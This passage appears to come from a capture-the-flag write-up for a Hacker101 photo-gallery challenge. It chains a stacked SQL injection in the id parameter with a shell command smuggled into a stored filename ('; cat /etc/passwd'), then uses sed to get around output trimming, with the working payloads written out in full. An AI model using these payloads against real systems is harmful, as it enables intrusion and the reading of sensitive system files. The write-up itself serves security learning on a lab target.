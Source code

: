Hmm... Nothing has changed. Maybe our UPDATE query was not commited? With MySQL, you can configure if changes are commited automatically or not. So let's add a COMMIT to our query and try again:

`/fetch?id=1; UPDATE photos SET filename = 'files/adorable.jpg; cat /etc/passwd' WHERE id=3; COMMIT`

[<img src="./assets/hacker101-05-rce2.png" alt="hacker101-05-rce2.png" width="400"/>](./assets/hacker101-05-rce2.png)

Nice! This time we get an output. But only one line... Let's check the server's source code again:

`rep += '<i>Space used: ' + subprocess.check_output(...).strip().rsplit('\n', 1)[-1] + '</i>'`

Oh. The output is split with `.rsplit('\n', 1)` and only the last element of the resulting list is used. But that should not stop us. Let's adjust our shell command. We can specify which line of the output we want by just piping it into `sed`. Like so:

`cat /etc/passwd | sed -n 1p`

This should only return the first line of our command.

[<img src="./assets/hacker101-05-rce3.png" alt="hacker101-05-rce3.png" width="400"/>](./assets/hacker101-05-rce3.png)
